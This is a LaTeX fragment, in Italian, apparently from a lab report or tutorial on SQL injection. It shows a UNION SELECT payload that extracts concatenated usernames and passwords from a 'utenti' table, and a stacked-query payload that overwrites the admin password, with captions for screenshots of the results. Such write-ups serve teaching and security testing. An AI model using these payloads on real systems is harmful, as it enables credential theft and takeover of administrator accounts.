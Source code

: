 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}
' UNION SELECT NULL, username || ':' || password, NULL FROM utenti -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{credenziali_estratte.png}
  \caption{Estrazione delle credenziali (username e password) concatenate tramite SQLi.}
\end{figure}



\subsection*{Manipolazione dei dati}

Oltre a leggere informazioni sensibili, è possibile anche modificarle.  
La seguente query SQLi consente di aggiornare la password dell'utente \texttt{admin}:

\begin{lstlisting}
'; UPDATE utenti SET password='hacked' WHERE username='admin'; -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{prima_update.png}
  \caption{Stato originale della tabella utenti prima dell'attacco.}
\end{figure}
\end{document}
